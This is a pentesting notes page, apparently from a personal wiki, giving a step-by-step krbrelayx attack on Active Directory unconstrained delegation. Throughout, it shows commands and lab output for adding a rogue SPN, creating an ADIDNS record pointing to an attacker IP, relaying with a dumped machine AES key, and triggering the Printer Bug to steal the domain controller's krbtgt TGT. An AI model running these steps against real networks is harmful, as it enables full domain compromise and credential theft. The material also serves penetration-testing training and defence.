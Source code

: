 # [krbrelayx](https://github.com/dirkjanm/krbrelayx)

> Toolkit for abusing [[unconstrained-delegation|unconstrained delegation]].

---

## Add a new `Host` SPN to a compromised unconstrained delegation computer or user account

```bash
$ cd krbrelayx
$ python3 addspn.py -u $DOMAIN\\$USERNAME -p $PASSWORD_OR_HASH -s host/$NEW_ATTACKER_FQDN $DOMAIN_CONTROLLER_FQDN_OR_IP --additional
```

- `$DOMAIN`: fully qualified (i.e. `marvel.test`)
- `$USERNAME`: the SAM account name of the user/computer account configured with unconstrained delegation (i.e., `HYDRA-WS02\$`)
- `$PASSWORD_OR_HASH`: either the password or the `LM:NTLM` hash of the user/computer account configured with unconstrained delegation
- `$NEW_ATTACKER_FQDN`: the new FQDN that will end up pointing to the attacker-controlled machine
- `--additional` adds a new SPN, whereas omitting it attempts to modify an existing SPN

**Note**: I have been unsuccessful at adding SPNs to user accounts in the past. Adding SPNs to computer accounts has been successful, though. Not being able to add an nonexistent `HOST` SPN to the user account somewhat nerfs this attack.

Example:

```bash
$ python3 addspn.py -u marvel.test\\HYDRA-WS02\$ -p aad3b435b51404eeaad3b435b51404ee:7d262be314027bed4dad3baed0142d21 -s host/tgihf.marvel.test 10.10.10.110
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

---

## Add a new DNS record to ADIDNS that maps the new `Host` SPN in the unconstrained delegation user/comuter account to an attacker-controlled IP address

```bash
$ cd krbrelayx
$ python3 dnstool.py -u $DOMAIN\\$USERNAME -p $PASSWORD_OR_HASH -r $NEW_ATTACKER_FQDN --action {add,modify,delete} --data $ATTACKER_CONTROLLED_IP_ADDRESS $DOMAIN_CONTROLLER_FQDN_OR_IP
```

- `$DOMAIN`: fully qualified (i.e. `marvel.test`)
- `$USERNAME`: the SAM account name of some domain user
- `$PASSWORD_OR_HASH`: either the password or the `LM:NTLM` hash `$USERNAME`
- `$NEW_ATTACKER_FQDN`: the new FQDN that will end up pointing to the attacker-controlled machine

Example:

```bash
$ cd krbrelayx
$ python3 dnstool.py -u marvel.test\\HYDRA-WS02\$ -p aad3b435b51404eeaad3b435b51404ee:7d262be314027bed4dad3baed0142d21 -r tgihf2.marvel.test --action add --data 192.168.1.200 10.10.10.110
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/opt/krbrelayx/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
  res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```

---

## Coerce the domain controller into authenticating to the attacker controlled machine as if it was the unconstrained delegation computer and steal `krbtgt`'s TGT

Start `krbrelayx.py` with one of the following options:

1. The AES256 Kerberos key of the unconstrained delegation computer account (found in LSA secrets) --> this is the preferred method

```bash
$ cd krbrelayx
$ sudo python3 krbrelayx.py -aesKey $AESKEY [-debug]
```

Example:

```bash
$ sudo python3 krbrelayx.py -aesKey a3b8943b6cfbc936ce80c4e159e3f5531c718ab5e0da9741ff05dd4882f152b9 -debug
```

The AES key was found in the following line from dumping LSA secrets:

```bash
...
[*] $MACHINE.ACC 
MARVEL\HYDRA-WS02$:aes256-cts-hmac-sha1-96:a3b8943b6cfbc936ce80c4e159e3f5531c718ab5e0da9741ff05dd4882f152b9
...
```

2. The unconstrained delegation computer account's **password** and the **salt** used to generate its Kerberos key
	- The **password** is simply the password
	- The **salt** is the all-caps domain name concatenated with the case-sensitive unconstrained delegation computer account name
		- For example: if the domain name is `marvel.test` and the computer account name is `HYDRA-WS02\$`, the **salt** would be `MARVEL.TESTHYDRA-WS02\$`.

```bash
$ cd krbrelayx
$ sudo python3 krbrelayx.py --krbpass $PASSWORD --krbsalt $SALT [-debug]
```

With `krbrelayx.py` listening, trigger the "Printer Bug" to coerce the domain controller into authenticating to the attacker controlled machine.

```bash
$ cd krbrelayx
$ python3 printerbug.py $DOMAIN/$USERNAME[:$PASSWORD]@$DOMAIN_CONTROLLER_FQDN_OR_IP [-hashes $HASHES] $NEW_ATTACKER_FQDN
```

- `$USERNAME` can be any domain user
- You'll need either `$PASSWORD` or `-hashes $HASHES` for which ever domain user you're using
	- `$HASHES` is `LMHASH:NTHASH`
- `$NEW_ATTACKER_FQDN` is the FQDN that points to the attacker-controlled host and is a `Host` SPN on the unconstrained delegation computer account

Example:

```bash
$ python3 printerbug.py marvel.test/fcastle:'P@$$w0rd1'@10.10.10.110 tgihf2.marvel.test
[*] Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at hydra-dc.marvel.test
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

`krbrelayx.py`'s successful output:

```bash
$ sudo python3 krbrelayx.py -aesKey a3b8943b6cfbc936ce80c4e159e3f5531c718ab5e0da9741ff05dd4882f152b9 -debug
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.10.10.110
[+] Ticket decrypt OK
[*] Got ticket for HYDRA-DC$@MARVEL.TEST [krbtgt@MARVEL.TEST]
[*] Saving ticket in HYDRA-DC$@MARVEL.TEST_krbtgt@MARVEL.TEST.ccache
[*] SMBD: Received connection from 10.10.10.110
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.10.10.110
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
```

`krbtgt`'s TGT will be saved in the file `./$DC_HOSTNAME\$@DOMAIN_krbtgt@$DOMAIN.ccache` (in the above example, `HYDRA-DC$@MARVEL.TEST_krbtgt@MARVEL.TEST.ccache`).

[[using-kerberos-tickets|Import the ticket into impacket and go to town]] ([[dumping-hashes]], perhaps?).

---

## Coerce any domain computer to authenticate to a particular FQDN (requires domain user credentials)

```bash
$ cd krbrelayx
$ python3 printerbug.py $DOMAIN/$USERNAME[:$PASSWORD]@$TARGET_COMPUTER_FQDN_OR_IP [-hashes $HASHES] $FQDN
```

- `$USERNAME` can be any domain user
- You'll need either `$PASSWORD` or `-hashes $HASHES` for which ever domain user you're using
	- `$HASHES` is `LMHASH:NTHASH`
- `$FQDN` is the FQDN that you'd like the target computer to authenticate to
